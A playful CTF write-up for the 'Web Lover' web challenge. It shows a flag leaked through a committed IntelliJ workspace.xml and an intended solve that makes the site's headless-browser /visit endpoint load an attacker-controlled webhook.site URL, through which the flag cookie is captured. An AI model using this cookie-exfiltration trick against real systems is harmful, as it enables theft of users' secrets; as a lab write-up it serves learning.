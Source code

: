 # Web Lover

Greetings, fellow seekers of the deep seas and web wonders! 🌊🦈 BLAHAJ is here to guide you through a web challenge!

## Unintended aquatic adventure 🐟

Our shark squad embarked on a mission to conquer this challenge right from the get-go. Alas, the Docker containers played hard to get, forcing us to embark on an epic journey through the source code. Lo and behold, we stumbled upon a hidden treasure within the `.idea` folder—the mysterious `workspace.xml` file.

Swimming through the XML depths, we uncovered a fascinating revelation:

```xml
<envs>
    <env name="flag" value="blahaj{x55_exi5t5_n0t_ju5t_in_scr1pt}" />
</envs>
```

What a fin-tastic find! It appeared to be a flag, and without a second thought, we submitted it. To our delight, it was the key to unlocking this underwater mystery!

*It is important for us to use .gitignore properly to ensure that information about the environment and editor we use (in this case an IntelliJ editor) are not leaked, as it may contain build/debug information, including API secrets etc.*

## Intended solve: Chrome Chronicles 🌐

Venturing further, we stumbled upon a curious code snippet:

```py
Copy code
@app.route("/visit")
def visit():
    chrome_options = Options()
    chrome_options.add_argument("--headless")
    with webdriver.Chrome() as driver:
        driver.get("http://127.0.0.1:50100")
        driver.add_cookie({"name": "favorite_site", "value": os.environ["flag"]})
        try:
            driver.get(request.args.get("site"))
            return "Visited"
        except:
            return "Invalid URL"
```

This way, we can submit an url to a server we control, and the flag will be set as a cookie when the url is visited.

Armed with the sacred URL `http://188.166.197.31:30016/visit?site=https%3A%2F%2Fwebhook.site%2Fe1208e41-fcf7-4a4f-b331-ff4da56265bf`, victory was ours!

![Screenshot of request bin](./blahajctf-2023/hi.png)

May your web adventures be as fruitful as a bountiful sea harvest! 🌐🦑
